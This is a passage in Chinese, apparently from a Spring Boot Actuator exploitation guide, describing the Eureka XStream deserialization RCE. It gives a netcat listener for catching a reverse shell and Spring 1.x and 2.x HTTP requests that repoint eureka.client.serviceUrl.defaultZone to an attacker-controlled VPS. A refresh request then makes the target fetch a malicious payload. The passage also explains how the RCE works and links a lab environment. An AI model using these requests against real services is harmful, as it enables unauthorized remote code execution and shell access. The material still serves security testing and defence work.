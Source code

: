 一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 443
```

**步骤三：设置 eureka.client.serviceUrl.defaultZone 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

**漏洞原理：**

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

**漏洞分析：**

​ [Spring Boot Actuator从未授权访问到getshell](https://www.freebuf.com/column/234719.html)

**漏洞环境：**

[repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

正常访问：

```
http://127.0.0.1:9093/env
```
